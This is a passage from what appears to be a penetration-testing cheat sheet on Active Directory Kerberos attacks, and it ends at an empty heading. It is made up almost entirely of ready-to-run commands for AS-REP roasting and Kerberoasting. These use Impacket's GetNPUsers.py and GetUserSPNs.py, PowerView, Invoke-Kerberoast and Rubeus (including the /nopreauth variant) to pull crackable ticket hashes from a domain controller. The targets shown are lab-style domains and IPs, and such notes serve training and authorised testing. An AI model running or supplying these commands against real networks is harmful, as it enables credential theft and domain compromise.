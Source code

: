 ```bash
python3 GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -dc-ip 10.129.254.42 'ZENCORP.LOCAL/j.doe'

# Find accounts without authentication
GetNPUsers.py ZENCORP/ -dc-ip 10.129.205.35 -usersfile /tmp/users.txt -format hashcat -outputfile /tmp/hashes.txt -no-pass
```

### <mark style="color:yellow;">Kerberoasting from Windows</mark>

```powershell
# Using powerview find users with SPN set
Get-DomainUser -SPN

# Kerberoast
Get-DomainUser * -SPN | Get-DomainSPNTicket -format Hashcat | export-csv .\tgs.csv -notypeinformation

# Read hashes
cat .\tgs.csv

# Automatic method
Invoke-Kerberoast

# Using Rubeus
Rubeus.exe kerberoast /nowrap
```

#### Kerberoast without account password

If we know of an account without Kerberost pre-auth enabled we can use an AS-REQ (used for TGT request) to request a TGS ticket for a kerberoastable user. Its done by modifying the req-body of the request. You need a username with DONT\_REQ\_PREAUTH and SPNs list.&#x20;

```powershell
# Rubeus attack with /nopreauth
Rubeus.exe kerberoast /nopreauth:john.doe /domain:zencorp.local /spn:MSSQLSvc/SQL01:1433 /nowrap
```

### <mark style="color:yellow;">Kerberoasting from Linux</mark>

```bash
# Get accounts with spn set
GetUserSPNs.py inlanefreight.local/john

# Request STs and hashes
GetUserSPNs.py inlanefreight.local/john -request
GetUserSPNs.py -dc-ip 172.16.51.5 ZENCORP.LOCAL/user -request 
```

### <mark style="color:yellow;">Check ASREP and Kerberoastble accounts</mark>
